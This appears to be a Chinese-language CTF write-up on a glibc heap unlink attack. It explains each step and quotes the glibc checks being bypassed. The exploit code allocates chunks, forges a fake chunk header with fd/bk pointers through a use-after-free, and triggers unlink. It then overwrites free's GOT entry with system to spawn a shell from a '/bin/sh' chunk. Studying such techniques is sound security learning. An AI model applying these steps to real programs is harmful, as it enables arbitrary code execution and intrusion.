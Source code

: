 先至少建立5个堆，然后将第4个和第5个堆free掉（不懂的可以参考我在CSDN中的unlink），以在unlink中构成chunk3->chunk0->target_addr的篡改链

![]()

```
create(0x90,'aaaa')#0
create(0x90,'/bin/sh\x00')#1
create(0x90,'cccc')#2
create(0x90,'dddd')#3
create(0x90,'eeee')#4
delete(3)
delete(4)
```

然后利用UAF漏洞对第4、5个堆进行伪造

```
fd = p64(p_addr-0x18)
bk = p64(p_addr-0x10)
payload = p64(0) + p64(0x91) + fd + bk + 'a'*0x70    #3  pre_size + size + fd + bk + data
payload +=p64(0x90) + p64(0xa0)    #4    pre_size + size
create(0x130,payload)
```

这里有个知识点，虽然说malloc后返回的不是头部而是data数据段了，但看源码后才明白需要修改这个头部才能unlink

```
    if (!prev_inuse(p)) {    //检查size最低位，看是否空闲
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));    //将p前移prevsize个字节
      unlink(av, p, bck, fwd);
    }
```
这里将指针前移的偏移量为prevsize，也即只能前移到该0x130大chunk的数据段初始位置，因此需要在这里伪造一个头部绕过unlink检查。

```
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");
```

p64(0) + p64(0x91)，关键是这个0x91和0x90大小一致（最低位只表示是否空闲，对实际大小无影响）

接下来就是free来触发unlink了

```
#unlink
delete(4)
```

这样一来，就完成了 chunk3->chunk0->target_addr的篡改链

接下去就是利用该篡改链修改函数got表了

这里可以选择strlen，也可以选择free，但最终触发的指令得相应改变了

```
modify(3,p64(free_got)) 
modify(0,p64(system_plt))
```
